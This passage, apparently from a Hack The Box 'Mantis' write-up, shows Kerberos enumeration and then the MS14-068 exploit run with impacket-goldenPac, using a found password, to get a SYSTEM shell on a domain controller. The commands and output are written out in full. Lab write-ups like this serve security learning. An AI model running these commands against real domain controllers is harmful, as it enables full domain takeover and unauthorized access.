user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[james] rid:[0x44f]
```

It worked, but no additional user's found.

### kerberos(88)

Tried to find if there's any AS-RepRoastable users, but there's nothing.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] [Errno 113] No route to host
```

So far, we've checked the found credential is working on various service, but they were not useful for spawning a shell.

# Shell as `SYSTEM`

After striking out on more exploitation, I started to Google a bit, and eventually found [this blog post](https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html) about MS14-068. Basically it’s a critical vulnerability in Windows DCs that allow a simple user to get a Golden ticket without being an admin. With that ticket, I am basically a domain admin.

Luckily, `impacket-GoldenPac` is useful for this exploit.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-goldenPac htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file JAfevXwk.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service FvIA on mantis.htb.local.....
[*] Starting service FvIA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

I got a `SYSTEM`'s shell directly!